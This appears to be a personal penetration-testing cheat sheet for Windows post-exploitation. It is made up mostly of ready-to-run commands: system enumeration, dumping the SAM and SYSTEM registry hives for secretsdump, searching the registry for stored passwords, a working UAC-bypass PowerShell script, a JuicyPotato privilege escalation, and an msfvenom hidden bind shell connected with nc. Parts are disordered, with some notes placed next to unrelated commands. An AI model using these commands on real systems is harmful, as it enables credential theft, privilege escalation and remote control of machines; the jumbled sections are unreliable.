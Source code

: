 ## INTERNAL RECONNAISANCE
1. Enumerating the operating system version and architecture
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`

2. Enumerating processes and services
`tasklist /SVC`

3. Enumerating Networking Information
`ipconfig /all`
`route print`
`netstat -ano`

4. Enumerating Firewall status and rules
`netsh advfirewall show currentprofile`
`netsh advfirewall firewall show rule name=all`

5. Enumerating scheduled tasks
`schtasks /query /fo LIST /v`

6. Enumerating installed applications and patch levels
**NOTE: WMIC returns ONLY installed by Microsoft Installer** 
`wmic product get name, version, vendor`

`wmic qfe get Caption, Description, HotFixID, InstalledOn`

7.  Enumerating installed applications and patch levels
`.\accesschk.exe -uws "Everyone" "C:\Program Files"`
`Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

8. Enumerating unmounted disks
`mountvol`

9. Enumerating Device drivers and kernel modules
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path`

`Get-WmiObject Win32\_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$\_.DeviceName -like "\*VMware\*"}`

10. Enumerating binaries that autoelevate 
**NOTE: If this key is enabled (set to 1) in either HKEY\_CURRENT\_USER or HKEY\_LOCAL\_MACHINE, any user can run Windows Installer packages with elevated privileges.**

11. Insecure File permissions.
- List the service that is running.
`Get-WmiObject win32\_service | Select-Object Name, State, PathName | Where-Object {$\_.State -like 'Running'}`

- Check if any users has read and write access to change to binary by malicious one.
`icacls "C:\\Program Files\\Serviio\\bin\\ServiioService.exe"`

- Unquoted service vulnerability can be use to elevate the privileges from any user to administrator, replacing the unquoted path with malicious binary.

`reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer`

`reg query HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer`



1.secretsdump.py -sam sam -system system local
  secretsdump.py -ntds ntds.dit -system system local
- grab the sam and system in the victim
- if sam is not available NTDT.dit is another optios

```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

2. Mapped Drives
```
 $pw = convertto-securestring 'aliceishere' -AsPlainText -Force
 $creds = New-Object System.Management.Automation.PSCredential('Bethany\Alice',$pw)
 New-PSDrive -Name test -PSProvider FileSystem -Credential $creds -Root \\192.168.119.123\test
 ```
 
 3. Find specific text

a. powershell
```
gci -recurse -filter monkey.exe -File -ErrorAction SilentlyContinue
```

b. cmd
```
dir /b/s *.txt
dir /s /b network-secret.txt
```
2. UAC BYPASS
```
if(((\[System.Security.Principal.WindowsIdentity\]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
} else {
    $registryPath = "HKCU:\\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \\Microsoft\\Windows\\DiskCleanup\\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```

[Powershell \*real\* UAC Bypass - Bash Bunny - Hak5 Forums](https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/)


3. PRIVESC on WIndows XP
[Windows XP SP0/SP1 Privilege Escalation to System Tutorial (sohvaxus.github.io)](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)


4. JUICYPOTATO
`.\jp.exe -t * -p 'c:\users\all users\run.bat' -l 1337 -c '{C49E32C6-BC8B-11d2-85D4-00105A1F8304}'`

5. Query passwords.
`reg query HKLM /f password /t REG\_SZ /s`
`reg query HKCU /f password /t REG\_SZ /s`


## DIFFICULTY TO GET REVERSE SHELL TRY CREATE A BIND SHELL
`msfvenom -p windows/shell_hidden_bind_tcp AHOST=172.16.1.100 LPORT=443 -f exe -o hidden.exe`
`nc <ip> <port>`